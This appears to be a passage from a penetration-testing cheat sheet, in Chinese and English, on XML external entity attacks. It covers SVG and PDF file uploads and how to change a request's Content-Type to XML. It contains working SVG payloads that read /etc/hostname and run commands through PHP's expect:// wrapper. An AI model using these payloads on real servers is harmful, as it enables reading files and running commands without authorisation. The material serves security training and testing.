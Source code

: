 ### SVG - File Upload

[From here.](https://portswigger.net/web-security/xxe)

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用 XML 或包含 XML 子组件。基于 XML 的格式的示例有 DOCX 等办公文档格式和 SVG 等图像格式。
例如，应用程序可能允许用户**上传图像**，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收像 PNG 或 JPEG 这样的格式，**正在使用的图像处理库也可能支持 SVG 图像**。由于 SVG 格式使用 XML，攻击者可以提交恶意 SVG 图像，从而达到 XXE 漏洞的隐藏攻击面。
```markup
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

You could also try to **execute commands** using the PHP "expect" wrapper:

```markup
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

**注意读取文件或执行结果的第一行将出现在创建的图像内。因此，您需要能够访问 SVG 创建的图像。**

### **PDF - File upload**

Read the following post to **learn how to exploit a XXE uploading a PDF** file:

{% content-ref url="file-upload/pdf-upload-xxe-and-cors-bypass.md" %}
[pdf-upload-xxe-and-cors-bypass.md](file-upload/pdf-upload-xxe-and-cors-bypass.md)
{% endcontent-ref %}

### Content-Type: From x-www-urlencoded to XML

如果 POST 请求接受 XML 格式的数据，您可以尝试在该请求中利用 XXE。例如，如果一个正常的请求包含以下内容：

```markup
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```markup
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Content-Type: From JSON to XEE

To change the request you could use a Burp Extension named “**Content Type Converter**“. [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:
